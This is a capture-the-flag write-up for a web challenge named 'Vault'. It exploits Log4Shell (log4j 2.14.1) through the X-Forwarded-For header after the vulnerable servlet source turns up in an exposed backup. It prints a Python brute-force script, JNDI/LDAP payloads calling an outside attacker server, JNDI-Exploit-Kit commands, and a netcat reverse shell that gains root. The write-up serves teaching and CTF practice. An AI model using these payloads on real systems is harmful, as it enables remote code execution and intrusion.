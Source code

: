 # Vault

## Description

What’s in the Vault, stays in the Vault - But tokyo is not in a mood to agree with that! Help her to take a peek inside the vault.

## Solution

Browsing to the give URL we find a login page.

![](assets/login.png)

As we don't have any credentials we can try SQL Injection or bruteforcing credentials using wordlists. These attempts failed. Let's enumerate files/folders using `ffuf` tool.

```bash
ffuf -u http://18.224.169.226:8080/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://18.224.169.226:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

                        [Status: 200, Size: 8661, Words: 1464, Lines: 452]
backups                 [Status: 302, Size: 0, Words: 1, Lines: 1]
images                  [Status: 302, Size: 0, Words: 1, Lines: 1]
```

There is a `backups` folder. Let's access it.

![](assets/backups.png)

Vault backup file is present. Let's download that to our machine.

```bash
wget http://18.224.169.226:8080/backups/vault.tar.gz
tar -xzf vault.tar.gz
```

We find the source code for this application inside `WEB-INF/src/`. 

```java
import javax.servlet.*;
import javax.servlet.http.*;
import java.io.*;
import java.util.Base64;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class SignIn extends HttpServlet{
        private static final Logger logger = LogManager.getLogger(SignIn.class);
    public void service(HttpServletRequest req, HttpServletResponse res)throws ServletException,IOException{
        String username = req.getParameter("username");
        String password = req.getParameter("password");
        if(username.equals("admin") && password.equals("admin")){
            HttpSession session=req.getSession();  
            session.setAttribute("username", username);
            RequestDispatcher rd =  req.getRequestDispatcher("home.jsp"); 
            rd.forward(req, res);
        }
        else{
            int count;
                HttpSession session=req.getSession();
                if (session.getAttribute("limit") == null)
            {
                session.setAttribute("limit", 0);
                res.sendRedirect("/?err=Invalid_Credentials");
            }
            else
            {
                try{
                 count = (Integer) session.getAttribute("limit");
                 if(count >= 10){
                    //Behind HeistFirewall
                    String ip =  req.getHeader("X-FORWARDED-FOR");
                    //Log the malicious attempt
                    logger.error("Malicious event detected from ip: ", ip);
                    res.sendRedirect("/blocked.jsp");
                }
                else{
                    System.out.println(count++);
                    session.setAttribute("limit", count++);
                    res.sendRedirect("/?err=Invalid_Credentials");
                }
            }
                catch (Exception e){
                    res.sendRedirect("/?err=Invalid_Credentials");
                }
            }
        }
    }
}
```

We see the credentials are `admin / admin` but they fail on this login page. It could be that the credentials are changed during deployment. Application is making use of log4j libraries for logging purposes.

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
```

It sets the limit 10 for failed logins. If limit reached then it logs the IP address retrieved from `X-FORWARDED-FOR` header. Looking at the `WEB-INF/lib` folder we find the version of log4j libraries.

```bash
ls -al
total 2004
drwxr-xr-x 1 root root      82 Feb 23 06:00 .
drwxr-xr-x 1 root root      40 Feb 23 06:00 ..
-rw-r--r-- 1 root root  300365 Feb 23 06:00 log4j-api-2.14.1.jar
-rw-r--r-- 1 root root 1745700 Feb 23 06:00 log4j-core-2.14.1.jar
```

As per [Apache](https://logging.apache.org/log4j/2.x/security.html) log4j official blog the issue is fixed in below versions.

```
2.17.1 (Java 8), 2.12.4 (Java 7) and 2.3.2 (Java 6)
```

Assuming if target server is using Java 8 then this application is vulnerable. Let's test this theory. We can script the login bruteforce using python.

```python
import requests

url = 'http://18.118.114.128:8080'

r = requests.get(url,allow_redirects=False)
c = r.headers['Set-Cookie'].split(';')[0].split('=')[1]
for i in range(0,12):
        r = requests.post(
                f'{url}/doSignIn',
                data={'username':'a','password':'b'},
                cookies={'JSESSIONID':c},
                headers={'X-Forwarded-For':'<payload>'}
                )
```

We start a DNS listener on either our burp collaborator or [interactsh](https://app.interactsh.com/#/). Let's update our script with the payload.

```python
headers={'X-Forwarded-For':'${jndi:ldap://c87t8382vtc0000fqrjggrwfyxoyyyyyd.interact.sh}'}
```

Running the script we receive a DNS lookup on the listener 

![](assets/dns.png)

This confirms the vulnerability. Let's download [JNDI-Exploit-Kit.jar](https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar) file. 

```bash
wget https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar
apt install openjdk-8-jdk -y
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L <ip>:1389 -S <ip>:1234 -J <ip>:8000
```

We start listener on port 1234 and update the python script to send the payload of JDK 8.

```bash
headers={'X-Forwarded-For':'${jndi:ldap://3.144.168.250:1389/njoxrn}'}
```

Running the script we receive shell.

```bash
ubuntu@ip-172-31-30-222:~$ nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 18.224.169.226 49200
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@ace935a571bc:/usr/local/tomcat# id
uid=0(root) gid=0(root) groups=0(root)
```

Flag can be located in `/`. 

```bash
root@c765e37eadd3:/usr/local/tomcat# cat /flag.txt
ACVCTF{l0gg1ng_1s_d4nger0us_t00_(-_-)}
```

